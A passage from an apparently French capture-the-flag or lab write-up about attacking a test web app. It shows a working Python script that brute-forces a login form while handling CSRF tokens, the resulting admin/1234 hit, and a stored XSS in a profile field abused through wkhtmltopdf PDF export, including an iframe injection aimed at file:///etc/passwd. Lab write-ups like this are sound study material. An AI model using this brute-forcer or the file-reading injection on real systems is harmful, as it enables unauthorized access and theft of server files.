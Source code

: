 ```python

        with open(PASS_FILE) as fd2:
            for password in fd2:
                password = password.strip()

                response = sess.post(
                    "http://192.168.2.3/test2/login.php",
                    data={
                        "name": user,
                        "password": password,
                        "token": token
                        }
                )
                if "Username or password are wrong" not in response.text:
                    print("No fail login message with creds {} / {}".format(user, password))
                    sess = requests.session()
                    response = sess.get("http://192.168.2.3/test2/login.php")

                soup = BeautifulSoup(response.text, "lxml")
                try:
                    token = soup.find("input", attrs={"name": "token"})["value"]
                except Exception:
                    print("No token field found with creds {} / {}".format(user, password))
                    print(response.status_code)
                    print(response.text)
                    exit()
```

Je met quelques noms d'utilisateurs (guest, demo, admin, test, etc) dans une wordlist et la pèche se termine aussitôt :  

```plain
$ python3 brute.py users.txt /opt/wordlists/top500.txt
No fail login message with creds admin / 1234
```

5 6 7 8 pour dumper tes fichiers
--------------------------------

Une fois connecté en admin on ne gagne qu'un formulaire pour éditer ses informations (*edit.php*).  

Toutefois il y a un champ *Display name* dans le formulaire qui est vulnérable à un XSS permanent (stocké). Le code HTML est alors interprété dans le script *profile.php* ou dans le *export.php* (le PDF est généré via le moteur de rendu WebKit).  

Exploiter le XSS dans *profile.php* ne nous est d'aucune utilité en revanche on peut jouer avec le *wkhtmltopdf* et tenter de lui faire rendre des informations particulières.  

J'avais déjà vu un cas d'exploitation similaire, je n'ai pas trouvé la référence originale (qui avait du être partagée via */r/NetSec*) mais il y a par exemple [cette ressource](https://securityonline.info/export-injection-new-server-side-vulnerability/) sur le sujet.  

J'ai d'abord essayé d'injecter une iframe dont la source est *file:///etc/passwd* mais la frame résultante dans le PDF était vide.  
